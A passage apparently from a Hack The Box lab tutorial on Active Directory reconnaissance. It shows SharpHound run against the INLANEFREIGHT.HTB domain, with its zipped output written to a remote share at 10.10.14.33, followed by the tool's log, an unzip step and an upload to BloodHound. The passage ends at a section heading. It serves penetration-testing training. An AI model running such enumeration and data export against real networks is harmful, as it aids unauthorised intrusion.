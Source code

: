 **Running SharpHound and saving the output to a shared folder**

```cmd-session
C:\htb> C:\Tools\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames
2023-01-11T11:31:43.4459137-06:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-01-11T11:31:43.5998704-06:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:43.6311043-06:00|INFORMATION|Initializing SharpHound at 11:31 AM on 1/11/2023
2023-01-11T11:31:55.0551988-06:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:55.2710788-06:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.HTB
2023-01-11T11:31:55.3089182-06:00|INFORMATION|Producer has finished, closing LDAP channel
2023-01-11T11:31:55.3089182-06:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-01-11T11:32:25.7331485-06:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-01-11T11:32:41.7321172-06:00|INFORMATION|Consumers finished, closing output channel
2023-01-11T11:32:41.7633662-06:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-01-11T11:32:52.2310202-06:00|INFORMATION|Status: 94 objects finished (+94 1.678571)/s -- Using 42 MB RAM
2023-01-11T11:32:52.2466171-06:00|INFORMATION|Enumeration finished in 00:00:56.9776773
2023-01-11T11:33:09.4855302-06:00|INFORMATION|SharpHound Enumeration Completed at 11:33 AM on 1/11/2023! Happy Graphing!

```

**Unzipping the file**

```shell
unzip ./HTB_20230111113143_5yssigbd.w3f
Archive:  ./HTB_20230111113143_5yssigbd.w3f
[./HTB_20230111113143_5yssigbd.w3f] HTB_20230111113143_hjclkslu.2in password:
  inflating: HTB_20230111113143_hjclkslu.2in
  inflating: HTB_20230111113143_hk3lxtz3.1ku
  inflating: HTB_20230111113143_kghttiwp.jbq
  inflating: HTB_20230111113143_kdg5svst.4sc
  inflating: HTB_20230111113143_qeugxqep.lya
  inflating: HTB_20230111113143_xsxzlxht.awa
  inflating: HTB_20230111113143_51zkhw0e.bth

```

Now we can upload our data to BloodHound:

![text](https://academy.hackthebox.com/storage/modules/69/bh_upload_random_data.jpg)

**Note:** If we set a password to the zip file, we will need to unzip it first, but if we didn't, we could import the file as is, with the random name and extension and it will import it anyway.

### Session Loop Collection Method
